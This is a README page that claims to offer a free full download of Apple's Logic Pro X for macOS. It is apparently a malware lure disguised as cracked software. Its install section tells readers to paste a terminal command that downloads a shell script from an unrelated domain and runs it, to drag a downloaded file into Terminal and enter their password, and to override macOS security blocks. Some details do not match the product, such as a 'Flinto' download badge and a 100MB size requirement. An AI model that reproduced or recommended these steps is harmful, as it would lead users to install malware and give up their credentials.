 <p align="center">
  <img src="https://help.apple.com/assets/674E348875226BE5DE0356B0/674E348E7F8A79704E098EDD/en_US/390711ce08c61bf054d3dc4dfb9080ae.png" alt="Logic Pro X Mac Banner" />
</p>

<h1 align="center">Logic Pro X for macOS</h1>

<p align="center">
  🎶 Professional music production, mixing, and mastering – all in one powerful DAW.  
  <br><br>
  ✅ Optimized for Apple Silicon and Intel  
  ✅ Works with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/105" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20FLINTO%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Logic Pro X for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://www.apple.com/newsroom/images/2023/11/apple-supercharges-logic-pro-for-mac-and-ipad/article/Apple-Logic-Pro-Sample-Alchemy_big.jpg.large.jpg" alt="Logic Pro X Main Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Logic Pro X?

**Logic Pro X** is Apple’s flagship digital audio workstation (DAW) for professional music production on macOS. It provides a comprehensive suite of tools for recording, editing, mixing, and mastering — all in a sleek, intuitive interface.

Used by producers, composers, and artists worldwide, Logic Pro X includes an extensive sound library, powerful MIDI tools, multi-track recording, and high-end audio effects and plugins.

Whether you're producing electronic beats, orchestral film scores, podcasts, or live band sessions, Logic Pro X delivers the precision, performance, and depth needed for any genre or workflow.

Fully optimized for both **Apple Silicon (M1/M2/M3)** and **Intel Macs**, Logic Pro X runs smoothly on **macOS Sonoma, Ventura, and Monterey** — making it a go-to platform for creators who demand speed and stability.

---

## ✅ Why Choose Logic Pro X?

- 🎼 **Studio-Grade DAW** – Trusted by industry professionals around the world  
- 🎹 **Huge Sound Library** – Thousands of instruments, loops, effects, and samples  
- 🎛️ **Mixer with Automation** – Full control over channels, busses, routing, and dynamics  
- 🧠 **Smart Tempo & Flex Time** – Advanced timing tools to align your performance perfectly  
- 🧩 **Plugin Suite Included** – Compressors, reverbs, EQs, amps, synths, and more  
- 🎧 **Dolby Atmos Support** – Create spatial mixes right inside the DAW  
- 🖥️ **Optimized for macOS** – Seamless performance on M1/M2/M3 and Retina displays  
- 🎙️ **Track Stacks & Live Loops** – Organize, trigger, and experiment with arrangement ideas  

> Whether you're an electronic producer, film scorer, or engineer, **Logic Pro X** gives you the power to create without limits.

---

## 📸 More Screenshots

<p align="center">
  <img src="https://www.apple.com/newsroom/images/product/apps/standard/Apple_Logic-Pro-X_Mac-Pro-Display-Pro_06132019_big.jpg.large.jpg" alt="Logic Pro X Mixer View Screenshot" />
  <br><br>
  <img src="https://dt7v1i9vyp3mf.cloudfront.net/styles/news_large/s3/imagelibrary/A/AppleLogic105_01-hLtOcjY0kB2TSFT30dII33WXL4f2TORL.jpg" alt="Logic Pro X Live Loops Screenshot" />
</p>

---

## 🚀 Key Features

- 🎚️ Multi-track audio & MIDI recording  
- 🧩 Built-in instruments and effects  
- 🎧 Real-time audio processing with zero latency  
- 🔄 Smart Tempo, Flex Pitch, and Time Stretch  
- 🪄 Step Sequencer & Drum Machine Designer  
- 🎬 Movie scoring with sync tools  
- 🌐 Sound library with frequent updates  
- 🖥️ Retina and Touch Bar support  

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**
- Allow Logic Pro X under "App Management"

---

## 🔍 Tags

```text
logic pro x mac download, logic pro x for macbook, logic pro x apple silicon, logic pro x full version mac, logic pro x for m1 mac, logic pro x daw macos, music production mac app, download logic pro x macos, logic pro x intel m1 support, logic pro x ventura compatible, mac logic pro music software, logic pro x m1 native, best daw for macbook, logic pro x macbook pro, logic pro x standalone installer
